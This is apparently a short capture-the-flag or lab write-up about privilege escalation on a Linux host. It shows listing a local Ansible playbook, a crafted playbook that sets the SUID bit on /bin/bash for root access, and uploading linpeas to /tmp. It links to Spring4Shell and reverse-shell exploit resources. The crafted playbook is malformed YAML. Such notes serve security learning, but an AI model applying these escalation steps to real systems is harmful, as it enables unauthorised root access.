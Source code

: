 -  given that there was no where else to look for root access I decided to look at what programs are running on the machine I found that ansible is being used
```shell
ls
automation
cd automation
ls
tasks
cd tasks 
ls
playbook_1.yml
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started

```

- based on research I figured that I could use the playbook to give phil the root access. I also figured that I needed to somehow upload that file to the server
```shell
- hosts: localhost
  tasks:
  - name: Get Root
    ansible.builtin.systemd:
      command: chmod u+s /bin/bash
      become:true
      
```
- Tried to get the yml file to execute but everytime that I did it would purge the file from the folder.
- I went another route by uploading linpeas to the tmp folder as this is another attack vector that could be used,. I made that executable on the victim machine 
```shell
-rwxrwxr-x 1 phil  phil  825850 Apr 14 17:32 linpeas1.sh


```

- I found the binarys that are executable
---
## Tags

----
## Resources

- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo
- Vunribility for Spring framework - https://security.berkeley.edu/news/vulnerability-spring-framework-cve-2022-22965
- Blog on Implementation - https://www.rapid7.com/blog/post/2022/04/01/metasploit-weekly-wrap-up-155/
- Privilage escalation with ansible: https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_privilege_escalation.html
- Reverse shell with script - https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit